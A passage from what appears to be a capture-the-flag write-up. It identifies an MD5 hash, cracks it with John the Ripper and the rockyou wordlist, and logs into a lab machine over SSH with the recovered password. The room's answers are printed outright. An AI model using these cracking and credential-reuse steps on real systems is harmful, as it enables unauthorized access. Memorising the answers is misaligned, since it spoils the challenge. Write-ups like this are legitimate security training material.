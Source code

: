 | r00t |  admin     |
| ----- | ------------------------------------- |
| f357a0c52799563c7c7b76c1e7543a32  | 0d0ea5111e3c1def594c1684e3b9be84 |
## Answer
```
f357a0c52799563c7c7b76c1e7543a32
```
##
## What is the password associated with this hash?
- Let's use `hash-identifier` to identify the hash type.
```
$ hash-identifier f357a0c52799563c7c7b76c1e7543a32                     
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
- We can now crack the hash using `john`.
```
$ john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt password_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
n100906             (?)     
1g 0:00:00:00 DONE (2023-12-08 21:44) 5.000g/s 862080p/s 862080c/s 862080C/s erinbear..eagames
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```
## Answer
```
n100906
```
#
# Task 4: The root of all evil
## What are the first 9 characters of the root user's private SSH key?
- We can try logging in through SSH using the `r00t` user and `n100906` password.
```
$ ssh r00t@10.10.26.63             
r00t@10.10.26.63's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Dec 10 10:15:49 UTC 2023

  System load:  0.04               Processes:           102
  Usage of /:   24.4% of 19.56GB   Users logged in:     0
  Memory usage: 73%                IP address for eth0: 10.10.26.63
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
```